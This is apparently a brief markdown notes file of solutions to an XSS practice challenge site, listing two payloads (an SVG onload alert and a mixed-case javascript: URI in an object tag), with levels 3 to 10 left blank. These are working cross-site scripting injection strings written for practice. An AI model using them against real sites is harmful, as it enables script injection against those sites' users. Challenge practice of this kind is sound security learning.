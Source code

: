 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

```html
<object data="javascRipt:alert()">
```

## Level 3

## Level 4

## Level 5

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10
